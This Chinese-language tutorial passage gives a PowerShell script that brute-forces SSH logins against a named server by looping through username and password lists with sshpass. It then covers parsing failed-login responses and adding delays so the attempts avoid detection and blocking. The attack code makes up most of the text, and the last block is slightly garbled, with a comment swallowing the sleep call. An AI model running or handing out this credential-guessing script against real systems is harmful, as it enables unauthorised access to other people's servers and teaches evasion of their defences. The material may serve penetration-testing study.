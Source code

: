 ## SSH 登录尝试脚本

编写 PowerShell 脚本，使用准备好的凭证自动化 SSH 登录尝试。PowerShell 的脚本功能允许嵌套循环遍历所有可能的组合：

```
 $sshServer = "ssh.snowcapcyber.com"
$sshPort = 22
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        # Construct the SSH command
        $sshCommand = "sshpass -p '$password' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p $sshPort $username@$sshServer"
        try {
            # Execute the SSH command
            Invoke-Expression -Command $sshCommand
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        }
        catch {
            # Handle SSH server response (e.g., incorrect credentials)
            Write-Host "Login failed: $username:$password - $_"
        }
    }
}
```

该脚本尝试使用每种用户名和密码组合进行登录。它使用 `sshpass` 命令将密码传递给 SSH 命令，并使用 `Invoke-Expression` cmdlet 执行 SSH 命令。成功登录后触发进一步的操作，而失败的尝试和相应的错误消息会被捕捉。

## 处理 SSH 服务器响应

SSH 服务器会以各种消息响应，指示登录尝试的成功或失败。PowerShell 脚本可以解析这些响应，以确定每次暴力破解尝试的结果：

```
 try {
    # Execute the SSH command
    Invoke-Expression -Command $sshCommand
    Write-Host "Login successful: $username:$password"
    # Perform additional actions based on a successful login
}
catch {
    # Handle SSH server response (e.g., incorrect credentials)
    $errorMessage = $_.Exception.Message
    Write-Host "Login failed: $username:$password - $errorMessage"
}
```

## 速率限制与隐匿性

为了避免被检测并减轻被 SSH 服务器屏蔽的风险，考虑在登录尝试之间引入延迟。可以使用 PowerShell 的 `Start-Sleep` cmdlet 实现这一点：

```
 $delaySeconds = 2
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
            # This is the code section that tries
# to connect and authenticate a user.         Start-Sleep -Seconds $delaySeconds
    }
}
```
